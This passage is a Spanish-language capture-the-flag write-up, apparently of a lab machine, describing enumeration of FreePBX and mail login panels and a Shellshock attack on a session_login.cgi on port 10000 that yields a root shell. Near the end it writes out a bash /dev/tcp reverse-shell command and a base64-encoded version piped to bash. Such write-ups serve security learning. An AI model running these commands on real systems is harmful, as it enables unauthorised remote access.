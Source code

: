 <img title="" src="https://user-images.githubusercontent.com/55555187/187661433-6f1708bd-d3a2-484c-8f1f-78c6c20b64cf.png" alt="image" width="494">

La pestaña *Recordings* nos lleva a otro panel de autenticación:

<img title="" src="https://user-images.githubusercontent.com/55555187/187661517-badd3c0f-3e17-4710-a210-8ff3ac0666f0.png" alt="image" width="547">

Buscando exploits para ambas versiones de *FreePBX* no logro encontrar nada que aplique en este caso.

Revisando */mail* encuentro otra aplicación con otro panel de autenticación:

<img title="" src="https://user-images.githubusercontent.com/55555187/187664554-a7194c3a-769c-46a2-815f-8bd86cb72a2d.png" alt="image" width="533">

Haciendo *fuzzing* decubro una serie de directorios, observo el contenido de estos y decido aplazar su análisis ya que todavía no he revisado la web del puerto *10000*. 

<img title="" src="https://user-images.githubusercontent.com/55555187/187665250-7e042b14-da6a-43d7-a40b-82f669ba1805.png" alt="image" width="558">

Revisando la web del puerto *10000* me encuentro una vez más con un panel de autenticación, al introducir una credenciales aleatorias me dijo en que se está llamando a un archivo *session_login.cgi* por lo que inmediatamente pienso en un *Shellsock attack*.

![image](https://user-images.githubusercontent.com/55555187/187666812-59e7fdd8-370b-4e5a-a2ec-16c57e63dbb2.png)

<img src="https://user-images.githubusercontent.com/55555187/187667127-28ca1e8f-9c1a-4c02-a23e-5044ef4700a9.png" title="" alt="image" width="580">

Este tipo de ataques se dan cuando tenemos archivos *.cgi* o *.sh* que se comunican con una *bash* a través de variables de entorno. Un buen post para entender esta vulnerabilidad es el siguiente: [Shellshock Attack - Pentesting Web - Deep Hacking](https://deephacking.tech/shellshock-attack-pentesting-web/)

Compruebo si el recurso es vulnerable haciendo que ejecute un *curl* contra un servidor *Python* que he levantado y consigo recibir la petición:

![image](https://user-images.githubusercontent.com/55555187/187668282-02a81a37-e879-4013-b964-16cf0ddcd96f.png)

En este caso decido optar por entablarme una reverse shell haciendo uso del siguiente comando:

```bash
bash -i >& /dev/tcp/10.10.14.5/443 0>&1
```

El cual *base64* encodeo y lanzo al servidor de la siguiente forma:

```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MyAwPiYxCg==' | base64 -d | bash
```

![image](https://user-images.githubusercontent.com/55555187/187668645-c5050722-441c-47c1-bc49-1904412e7f7b.png)

Lo que ha pasado es que el servidor ha descifrado la cadena de texto en *base64* y luego la ha pipeado a una *bash* haciendo que el comando se interprete.

## Escalada de privilegios

En este caso no ha sido necesario escalar privilegios ya que la *shell* obtenida era como el usuario *root*.
